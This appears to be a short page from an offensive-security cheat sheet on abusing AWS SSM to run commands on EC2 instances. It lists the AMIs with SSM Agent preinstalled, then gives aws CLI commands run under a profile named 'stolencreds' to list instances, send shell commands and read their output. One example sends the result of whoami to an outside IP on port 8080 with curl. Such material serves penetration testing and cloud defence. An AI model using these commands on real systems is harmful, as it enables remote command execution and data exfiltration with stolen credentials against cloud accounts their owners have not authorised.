 # AWS - Service - SSM

## Command execution

:warning: The ssm-user account is not removed from the system when SSM Agent is uninstalled.

SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

* Windows Server 2008-2012 R2 AMIs published in November 2016 or later
* Windows Server 2016 and 2019
* Amazon Linux
* Amazon Linux 2
* Ubuntu Server 16.04
* Ubuntu Server 18.04
* Amazon ECS-Optimized

```powershell
$ aws ssm describe-instance-information --profile stolencreds --region eu-west-1  
$ aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile stolencreds
$ aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile stolencreds

e.g:
$ aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.███.███:8080/`whoami`' --output text --region=us-east-1
```


## References

* []()